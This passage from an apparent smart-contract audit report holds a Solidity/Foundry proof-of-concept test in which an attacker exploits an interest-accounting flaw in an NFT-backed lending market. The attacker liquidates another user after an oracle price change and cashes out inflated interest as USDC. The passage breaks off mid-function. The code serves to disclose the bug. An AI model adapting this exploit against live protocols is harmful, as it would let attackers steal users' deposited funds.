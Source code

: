 You can find the `BaseTest.t.sol` file, which is used as the backbone for all POCs in this report, [in this Gist](https://gist.github.com/zobront/44a1909a8451d7649443d0e2717a96ab).

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./BaseTest.t.sol";

contract SeizeInterestTest is BaseTest {
    function testSeizeInterest() public {
        // attacker mints and redeems to lock in interest index
        _distributeAndMintBAYC(attacker, 99);
        vm.prank(attacker);
        baycCERC721.redeemUnderlying(1);

        // some other users enter the market (don't matter for POC but market must have some activity)
        _distributeAndMintBAYC(lender, 1);
        _distributeERC20(USDC, borrower, 100_000e6, address(imMarket));
        vm.startPrank(borrower);
        imMarket.mint(100_000e6);
        baycCERC721.borrow(1);
        vm.stopPrank();

        // 1 year passes
        vm.roll(block.number + blocksPerYear);
        baycCERC721.accrueInterest();

        // another user deposits some BAYC and borrows max to set up for liquidation
        // note that the attacker could do this themselves
        address user = makeAddr("user");
        _distributeAndMintBAYC(user, 2);
        _distributeAndMintBAYC(user, 3);
        vm.prank(user);
        imMarket.borrow(100_000e6);

        // at this point, nobody should be owed anything
        console2.log("Attacker Interest Owed: ", baycCERC721.supplyInterestCurrent(attacker));
        console2.log("User Interest Owed: ", baycCERC721.supplyInterestCurrent(user));

        // to allow for simple liquidation, let's increase price of USDC by 2%
        MockOracle usdcMoonOracle = new MockOracle(1.02e8);
        oracle.setAssetPriceFeed(CToken(address(imMarket)), address(usdcMoonOracle));

        // liquidate the user
        uint[] memory empty = new uint[](0);
        Comptroller.Liquidatables memory liqable = Comptroller.Liquidatables(address(imMarket), 50_000e6, empty);
        Comptroller.Liquidatables[] memory liqables = new Comptroller.Liquidatables[](1);
        liqables[0] = liqable;
        CTokenInterface[] memory collaterals = new CTokenInterface[](1);
        collaterals[0] = CTokenInterface(address(baycCERC721));
        _distributeERC20(USDC, attacker, 50_000e6, address(imMarket));
        vm.startPrank(attacker);
        comptroller.batchLiquidateBorrow(user, liqables, collaterals);
        console2.log("Attacker Interest Owed After Liq: ", baycCERC721.supplyInterestCurrent(attacker));

        // redeem the fake interest and cash it out for USDC
        uint balanceBeforeCashOut = IERC20(USDC).balanceOf(attacker);
        baycCERC721.redeemInterest(address(0));
        imMarket.redeem(imMarket.balanceOf(attacker));
        vm.stopPrank();
```